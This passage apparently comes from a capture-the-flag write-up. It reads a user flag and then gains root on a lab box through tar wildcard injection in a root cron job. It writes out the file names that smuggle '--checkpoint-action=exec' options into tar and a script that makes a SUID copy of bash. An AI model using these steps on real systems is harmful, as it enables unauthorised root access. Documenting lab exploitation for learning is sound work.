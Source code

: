 ## user flag :
```bash
andre@cmess:~$ ls
backup  user.txt
andre@cmess:~$ cat user.txt
thm{c529b5d5d6ab6b430b7.........}
```

# Privilege Escalation 

after enum the system SUID ,Sudo , Kernal , cron job ... i find a wildcard with tar :

```js
andre@cmess:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

Now i have to explain something

we have `tar -zcf /tmp/andre_backup.tar.gz *` that executed every 2 minutes 
and it's have * to backup all file in the `/home/andre/backup` directory 
when it go to this file * converted to all file names in this dirctory like
if we hav files called `file.txt` `file2.txt`  in the dirctory 
this command `tar -zcf /tmp/andre_backup.tar.gz *` will be `tar -zcf file.txt file2.txt`

Ok why this dangerous 
tar has a flages called `--checkpoint `that make it do something after n period  and `--checkpoint-action` that's specified the action 

in our case we will make a file called `--checkpoint=1` and file called `--checkpoint-action=exec=sh\ shell.sh`

after create this files we create shell to execute it with tar  to get root

- add shell to file 
>**echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash;' > shell.sh**

-create checkpoints 
>**touch /home/andre/backup/--checkpoint=1**
>**touch /home/andre/backup/--checkpoint-action=exec=sh\ shell.sh**
